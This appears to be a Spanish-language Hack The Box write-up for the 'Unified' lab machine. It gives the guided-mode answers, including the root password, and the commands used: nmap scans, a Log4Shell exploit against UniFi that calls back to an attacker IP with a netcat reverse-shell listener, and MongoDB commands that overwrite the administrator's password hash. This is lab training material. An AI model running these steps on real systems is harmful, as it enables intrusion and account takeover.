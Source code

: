 ```yaml
---
title: Writeup unified - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - unified
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina unified en Hack The Box.
keywords:
  - writeup unified
  - hack the box unified
  - resolución máquina unified
  - unified hack the box
  - htb unified
---
```

-------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Linux/Unified)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=KFEsWyExifo)|[Parte2](https://www.youtube.com/watch?v=6t717LDxTC8)|[Parte3](https://www.youtube.com/watch?v=EMSUnKxBaDQ)
- 🧠 **Explicación resumida**: 

---------

#veryeasy #linux #nmap #ping #CVE-2021-44228 #tratamientotty #nc-nlvp443 #mkpasswd #ssh #mongodb 

---
# Guided Mode

1)¿Cuáles son los cuatro primeros puertos abiertos?
	22,6789,8080,8443

2)¿Cuál es el título del software que se está ejecutando en el puerto 8443?
	UniFi Network

3)¿Cuál es la versión del software que se está ejecutando?
	6.4.54

4)¿Cuál es el CVE de la vulnerabilidad identificada?
	CVE-2021-44228

5)¿Qué protocolo utiliza JNDI en la inyección?
	LDAP

6)¿Qué herramienta utilizamos para interceptar el tráfico que indica que el ataque ha tenido éxito?
	[[tcpdump]]

7)¿Para qué puerto necesitamos inspeccionar el tráfico interceptado?
	389

8)¿En qué puerto se ejecuta el servicio MongoDB?
	27117

9)¿Cuál es el nombre predeterminado de la base de datos para las aplicaciones UniFi?
	ace

10)¿Cuál es la función que utilizamos para enumerar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.find()

11)¿Cuál es la función que utilizamos para actualizar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.update()

12)¿Cuál es la contraseña del usuario root?
	NotACrackablePassword4U2022

-------

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.228.2
nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.228.2 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,6789,8080,8443,8843,8880 10.129.228.2 -oN target
```


![[Unified1.png]]
![[Unified2.png]]
*TTL:* Maquina linux
*Puertos relevantes:*
	`22`SSH
	`8080` Es un http

--------
# [[CVE-2021-44228]]

Cuando entramos al puerto 8080 que dice que es un http, nos redirigue a esta pagina
![[Unified4.png]]

[Link del CVE](https://github.com/puzzlepeaches/Log4jUnifi), Hicimos la instalacion que esta en el github
Ejecutamos el exploit ``python3 exploit.py -u https://10.129.228.2:8443 -i 10.10.16.17 -p 443`` estando en escucha con [[nc -nlvp 443]]

![[Unified5.png]]

![[Unified6.png]]

------
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios

```
ps aux | grep mongod
```

![[Unified7.png]]

Vemos que esta corriendo en el puerto 27117

Nos conectamos con ``mongo --port 27117``
![[Unified8.png]]

Para ver las bases de datos `show dbs` y despues usamos la base de datos "ace" que es la unica que tiene contenido por el peso con `use ace`
Usamos comando ``db.admin.find()`` 
	**`admin` no es una colección por defecto**, sino una base de datos especial que contiene usuarios y configuraciones administrativas.
![[Unified11.png]]
```
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."
```
Nos da la contraseña hasheada pero no se puede crackear


Entonces vamos a cambiar la contraseña del usuario administrator
Esa contraseña como empieza por $6 sabemos que es SHA-512 asi que creamos una nueva con [[mkpasswd]] ``mkpasswd -m sha-512 test123``

![[Unified12.png]]

``$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU.`` Esta es nuestra contraseña hasheada

```
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU."}})
```

Ya esta cambiada la contraseña, ahora vamos a ingregar con las credenciales `administrator` y `test123`
![[Unified13.png]]


![[Unified14.png]]
En esta parte nos da la contraseña del usuario root `NotACrackablePassword4U2022` y nos podemos conectar por ssh

![[Unified15.png]]
Una vez dentro podemos ya podemos catear las flags

Las flags estan en /home/michaels/user.txt y /root/root.txt



--------
# Notas
Puerto 8080 es una variante para el puerto 80
Mongodb se llama la base de datos pero mongod es el demonio corriendo el proceso

`db.admin.find()` solo funcionaría si vos (o alguien) creaste una colección llamada `admin`, y no tiene relación con ver usuarios o permisos administrativos en MongoDB.

SHA-512Es **SHA-512** porque el hash empieza con `$6$`, que es el identificador estándar usado por la función `crypt()` en Linux para indicar el uso de SHA-512.
[Pagina para ver tipos de hashes](https://hashes.com/en/tools/hash_identifier)

LDAP (Lightweight Directory Access Protocol) es un protocolo que permite acceder y administrar información organizada en forma jerárquica, como usuarios, grupos y dispositivos de red.  
	Se usa principalmente para autenticación y gestión de identidades en redes empresariales.  
	No usa SQL y está diseñado para consultas rápidas sobre datos estructurados tipo directorio.


--------
# Creditos
Writeup Oficial HackTheBox
Writeup [Datalife](https://thedatalife.com/hack-the-box-unified)


